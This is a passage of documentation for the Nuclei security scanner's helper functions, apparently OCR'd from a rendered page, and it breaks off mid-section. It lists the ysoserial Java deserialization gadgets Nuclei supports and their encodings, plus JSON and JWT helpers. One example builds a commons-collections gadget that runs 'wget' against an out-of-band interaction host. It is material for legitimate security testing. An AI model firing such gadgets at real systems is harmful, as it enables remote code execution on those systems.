Deserialization helper functions
Nuclei allows payload generation for a few common gadget from ysoserial.

Supported Payload:
```
dns (URLDNS)
commons-collections3.1
commons-collections4.0
jdk7u21
jdk8u20
groovy1
```
Supported encodings:
```
base64 (default)
gzip-base64
gzip
hex
raw
```
Deserialization helper function format:

```
{{generate_java_gadget(payload, cmd, encoding }}
```
Deserialization helper function example:

```
{{generate_java_gadget(\"commons-collections3.1\", \"wget http://{{interactsh-url}}\", \"base64\")}}
​```
JSON helper functions
Nuclei allows manipulate JSON strings in different ways, here is a list of its functions:

generate_jwt, to generates a JSON Web Token (JWT) using the claims provided in a JSON string, the signature, and the specified algorithm.
json_minify, to minifies a JSON string by removing unnecessary whitespace.
json_prettify, to prettifies a JSON string by adding indentation.
Examples

generate_jwt

To generate a JSON Web Token (JWT), you have to supply the JSON that you want to sign, at least.

Here is a list of supported algorithms for generating JWTs with generate_jwt function (case-insensitive):
```
HS256
HS384
HS512
RS256
RS384
RS512
PS256
PS384
PS512
ES256
ES384
ES512
EdDSA
NONE
```
Empty string (\"\") also means NONE.

Format:

```